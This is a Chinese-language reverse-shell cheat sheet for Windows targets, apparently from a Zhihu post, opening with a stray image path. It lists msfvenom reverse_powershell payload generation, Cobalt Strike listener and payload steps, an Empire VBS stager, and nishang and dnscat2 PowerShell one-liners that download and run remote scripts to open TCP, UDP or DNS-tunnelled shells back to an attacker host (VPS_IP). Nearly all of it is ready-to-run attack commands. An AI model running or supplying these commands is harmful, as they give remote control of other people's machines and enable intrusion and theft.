 使用msfvenom生成相关Payload

```text
msfvenom -l payloads | grep 'cmd/windows/reverse'
msfvenom -p cmd/windows/reverse_powershell LHOST=VPS_IP LPORT=1234
```

### **Cobalt strike反弹shell**

1、配置监听器：点击Cobalt Strike——>Listeners——>在下方Tab菜单Listeners，点击add。 2、生成payload：点击Attacks——>Packages——>Windows Executable，保存文件位置。 3、目标机执行powershell payload

### **Empire反弹shell**

```text
usestager windows/launcher_vbs
info
set Listener test
execute
```

### **nishang反弹shell**

反弹TCPshell

```text
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com /samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress VPS_IP -port 1234
```

反弹UDPshell

```text
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellUdp.ps1');
Invoke-PowerShellUdp -Reverse -IPAddress VPS_IP -port 1234
```

### **Dnscat反弹shell**

项目地址：

[https://github.com/iagox86/dnscat2github.com/iagox86/dnscat2](https://link.zhihu.com/?target=https%3A//github.com/iagox86/dnscat2)

服务端：

```text
ruby dnscat2.rb --dns "domain=lltest.com,host=xx.xx.xx.xx" --no-cache -e open -e open 
```

目标主机：

```text
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain lltest.com -DNSServer xx.xx.xx.xx
```
